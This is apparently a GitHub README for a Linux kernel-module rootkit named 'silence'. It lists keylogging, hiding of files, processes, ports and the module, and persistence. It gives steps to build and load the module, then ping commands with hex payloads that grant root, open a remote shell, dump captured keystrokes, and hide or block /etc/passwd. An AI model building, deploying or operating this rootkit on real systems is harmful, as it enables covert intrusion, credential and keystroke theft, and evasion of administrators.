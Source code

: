 # Description

Kprobe-based LKM rootkit.

![image](https://www.hdwallpapers.in/thumbs/2021/man_is_standing_alone_on_rock_in_white_mountains_background_4k_hd_alone-t2.jpg)

# Overview

* ICMP communication
* Userland agent
* Keylogger
* File hide
* PID hide
* Port hide
* LKM hide
* LKM Persistence
* Debug

# Build

## First step

Change KRN_SRC from Makefile to your kernel source directory

```bash
change ccflags-y := -I<abosulte_path_of_project>/include from src/Kbuild
change ccflags-y := -I<abosulte_path_of_project>/include/utils from src/Kbuild
change ccflags-y := -I<abosulte_path_of_project>/include/implant from src/Kbuild
change ccflags-y := -I<abosulte_path_of_project>/include/stealth from src/Kbuild
```

## Compile LKM

make

## Makefile

```makefile
Usage: make <target>
Targets:
  help         Display this help message
  all          Build LKM
  clean        Clean LKM
  dist         Create tar archive release
  format       Format all .c, .h files with clang-format
```

# Usage

## Load LKM

1. sudo /init_network
2. sudo insmod silence.ko
3. sudo depmod

## Interact

```ping -p <code> -c 1 8.8.8.8```

### Elevate process privilege

```ping -p ca550100000000000000000000000000 -c 1 8.8.8.8```

### Launch a remote shell

```ping -p ff -c 1 8.8.8.8```

### Get a keylogger records

```ping -p ba -c 1 8.8.8.8```

### Hide process

```ping -p de550100000000000000000000000000 -c 1 8.8.8.8```

### Hide passwd file

```ping -p ad017061737377640000000000000000 -c 1 8.8.8.8```

### Restore

```ping -p ad007061737377640000000000000000 -c 1 8.8.8.8```

### Unable to open /etc/passwd

```ping -p fe012f6574632f706173737764000000 -c 1 18.8.8.8```

### Restore

```ping -p fe002f6574632f706173737764000000 -c 1 18.8.8.8```

# Features

# Authors

* [p2lu](https://github.com/p2lu): ICMP communication, LKM aggregation and fixes.
* [exhyl](https://github.com/hnopew): Keylogger, fixes and tests.
* [MikeHorn-git](https://github.com/MikeHorn-git): Hide, persistence and tests.
